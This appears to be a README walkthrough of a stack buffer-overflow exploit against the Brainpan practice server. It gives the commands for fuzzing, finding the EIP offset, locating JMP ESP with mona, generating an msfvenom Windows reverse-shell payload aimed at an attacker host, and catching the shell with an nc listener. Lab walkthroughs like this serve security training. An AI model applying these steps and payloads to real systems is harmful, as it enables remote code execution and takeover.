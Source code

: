 <h1>Brainpan BOF server </h1>
<br><h2>steps</h2></br> 
<br><h3>1. spiking</br>
<br>2.fuzzing</br>
3. finding the offset
4. overwriting the EIP
5. finding bad characters
6. finding the right modules
7. Generating Shellcode</h3>

    <h2>    1 .spiking </h2> 
*First make sure youe firewall real protection turn off
*Now run brainpan server as admin
*use your spiking.spk to find Vulnerability 
script is --> 
<b>s_readline();
"s_string("TRUN ");"
s_string_variable("0");
</b>

*Now use generic_send_tcp (target)IP (target)PORT spiking.spk 0 0
(if server scrash ? boom you  succeed :D )`


``     <h2>2 .fuzzing</h2>

*Now time to find Number of size buffer which crash server 
(user chmod +x * )
* ./brainpan.py 192.168.43.161 9999 ( here your brainpan server will crash and you will get avarage amount o buffer size
*Now create pattern , why ? to find exact number of Buffer size
*First create unic pattern using metasploit tool
* /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1500( here your last (brainpan.py) crash avarage number , which 
must greater.  
* Now usr offsetcalc.py to find lenght later we will find offset which is our exact buffer size in byte :D 
* ./offsetcalc.py IP PORT
*get EIP value ? now use it at offset
		
		<h2>3. finding the offset</h2>
*find offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2000 -q 35724134
[*] Exact match at offset 524
* boom ?? we get Exact Number of size which is 524

		<h2>4. overwriting the EIP</h2>
*Now Verify EIP Overwrite or Not By B, add B*4 and check debuger print 42424242 at EIP or not
./brainpanEIPWt.py IP PORT
* YES --> ok great

		<h2>5. finding bad characters</h2>
* Now find Bad chars which is use while create shellcode , actual we dont found bad chars in this servers, but dont skip this step go head
and just do practice ;) 
* ./brainpanBadChard.py IP PORT
* remember how to find Bad chars ? opps no ? dont worry just do hard else catch me on insta i'll explain you :)
bad chars 

	<h2>6. finding the right modules</h2>
* Downloaded Mona modules ? . no ? download it  --> https://github.com/corelan/mona and add it at exact place

* use command 
!mona mudules
!mona find -s "\xff\xe4" -m brainpan.dll
*now find base value note it down
and make sure ur JMP ESP use Using nasm_shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

now do make sure you selected your JMP ESP make sure your base value is right 
click arrow type jump number
*fire offsetverify.py
./offsetverify.py IP PORT
make sure its work you controling EIP or not if yes then go head and do shell using shellcode

*control EIP done

			<h2>7. Generating Shellcode</h2>
*now generarte shellcode 

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.43.216 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0a"(make sure your bad chars)


"A" * 524 + (JMP ESP value) "\xf3\x12\x17\x31"  (reverse way) +  "\x90" * 8 ( this is nops value minimum which make space between shell and JMP ESP+ shell 
*make sure your nc is ready
 nc -lvnp 443

*and now fire your final code 
./finalexploit.py IP PORT

*boom you will get shell 
*if not then sorry please recheck all step clearly 
*thanks i hope you love this repo :D 

<b>
<br>visit our official Website : https://hacksudo.com</br>
<br>hacksudo Linkedin https://www.linkedin.com/in/hack-sudo-230a871b3/</br>
<br> visit linkedin https://www.linkedin.com/in/realvilu </br>
<br><h2>Author Vishal waghmare</h2></br>
<h3>Happy Hacking :)</h3>
</b>

